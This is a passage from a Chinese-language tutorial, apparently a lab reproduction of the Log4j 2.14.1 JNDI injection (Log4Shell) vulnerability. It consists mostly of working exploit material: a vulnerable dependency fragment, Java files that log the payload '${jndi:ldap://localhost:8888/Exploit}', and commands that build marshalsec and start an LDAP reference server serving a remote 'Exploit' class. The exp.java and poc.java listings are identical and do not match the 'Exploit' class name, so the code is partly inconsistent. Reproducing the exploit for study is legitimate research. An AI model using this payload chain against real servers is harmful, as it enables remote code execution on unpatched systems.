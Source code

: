 ```Pom.xml```中代码如下
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>
</project>
 ```

#### 2.2.2 新建exp.java文件
```exp.java```的代码如下
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
class LogTest {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:8888/Exploit}");
    }
}
 ```

#### 2.2.3 新建poc.java文件
```poc.java```的代码如下
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
class LogTest {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:8888/Exploit}");
    }
}
 ```

#### 2.2.4 编译exp.java
在```.\src\test\java\```目录下进行编译，得到exp.class
```shell
cd .\src\test\java\
javac exp.java
```

#### 2.2.5 借助反序列化利用工具marshalsec
接下来需要用到java的反序列化利用工具marshalsec，直接从github上面clone下来，利用命令行cmd
```shell
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
```
然后进入target目录，可以看到marshalsec-0.0.3-SNAPSHOT-all.jar这个工具，利用命令行cmd
```shell
java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8888
```
